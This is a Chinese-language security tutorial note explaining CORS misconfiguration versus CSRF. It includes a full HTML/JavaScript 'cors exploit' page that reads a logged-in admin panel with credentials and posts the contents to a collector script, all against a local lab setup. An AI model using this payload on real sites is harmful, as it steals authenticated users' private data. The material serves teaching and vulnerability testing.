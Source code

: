 ------

```plain
复现步骤：
1、本地搭建访问页面跨域调用URL
2、受害者访问当前页面被资源共享

原理：
CORS（资源共享，建立在同源策略上）  只能做资源的获取
用户A在登录自己的后台或者页面，这个时候访问呢了第三方的页面的第三方页面去请求这个后台或者页面的内容，用户A访问了页面即将后台页面的内容泄露了

CSRF（如果有同源策略，那就会失效）操作添加用户
用户A在登录自己的后台或者页面，这个时候访问呢了第三方的页面的第三方页面去请求这个后台或者页面的内容，用户A访问了页面即将执行这个数据包。



产生原因：
index.php文件
Access-Control-Allow-Orign:*(标识其他页面能获取此页面的资源)（有漏洞）
Access-Control-Allow-Orign:http://www.xiaodi8.com(标识www.xiaodi8.com能获取此页面的资源，其他页面就不支持了。)（没有漏洞）

找这种漏洞，就是找设置问题，看不到
黑盒：Access-Control-Allow-Orign这个值是否设置后通过资源
在后台中博客是登录状态，http://127.0.0.1:8107/zb_system/admin/index.php

然后这时候管理员不小心触发了访问连接http://127.0.0.1:8107/cors.html
cors.html内容：

<!DOCTYPE>
<html>
<h1>cors exploit</h1>
<script type="text/javascript">
function exploit()
{
    var xhr1;
    var xhr2;
    if(window.XMLHttpRequest)
    {
        xhr1 = new XMLHttpRequest();
        xhr2 = new XMLHttpRequest();
    }
    else
    {
        xhr1 = new ActiveXObject("Microsoft.XMLHTTP");
        xhr2= new ActiveXObject("Microsoft.XMLHTTP");
    }
    xhr1.onreadystatechange=function()
    {
        if(xhr1.readyState == 4 && xhr1.status == 200) 
        {
            var datas=xhr1.responseText;
            xhr2.open("POST","http://127.0.0.1:8107/cors1.php","true");
            xhr2.setRequestHeader("Content-type","application/x-www-form-urlencoded");
            xhr2.send("z0="+escape(datas));      
        }
    }
    xhr1.open("GET","http://127.0.0.1:8107/zb_system/admin/index.php","true") 
    xhr1.withCredentials = true;        
    xhr1.send();
}
exploit();
</script>
</html>

```